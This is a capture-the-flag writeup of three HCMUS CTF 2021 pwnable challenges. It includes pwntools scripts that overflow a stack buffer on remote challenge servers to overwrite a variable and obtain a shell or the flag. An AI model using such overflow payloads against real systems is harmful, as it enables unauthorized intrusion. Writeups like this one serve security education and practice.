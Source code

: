 ```yaml
---
title: "HCMUS CTF 2021"
description: "HCMUS CTF 2021 Pwnable Writeup"
summary: "HCMUS CTF 2021 Pwnable Writeup"
categories: ["Writeup"]
tags: ["Pwnable"]
#externalUrl: ""
date: 2021-06-07
draft: false
authors:
  - th3_5had0w
---
```


## Qualification

### mybirthday

The program needs to get the result of this comparison to be 0 to run the shell

`cmp    DWORD PTR [ebp-0xc],0xcabbfeff`

Nothing special in this challenge, just a basic memory modifying, i overflowed the input and overwritten the default var value with 0xcabbfeff. My script:

```python
from pwn import *

#io = process('./hpbd')
io = remote('61.28.237.24', 30200)


print(io.recvuntil('?\n'))
payload = b'A'*24+p32(0xcabbfeff)
io.sendline(payload)
io.interactive()
```

### bank1

This is just a blind overflow challenge, you send a lot of input and the server will return the flag.

### bank2

This challenge is not much different from `bank1`, another memory modifying challenge. My script:

```python
from pwn import *

io = remote('61.28.237.24', 30203)
#io = process('./bank2')

print(io.recvuntil(': '))
payload = b'A'*64+p32(0x66a44)
io.sendline(payload)
print(io.recvall())
```
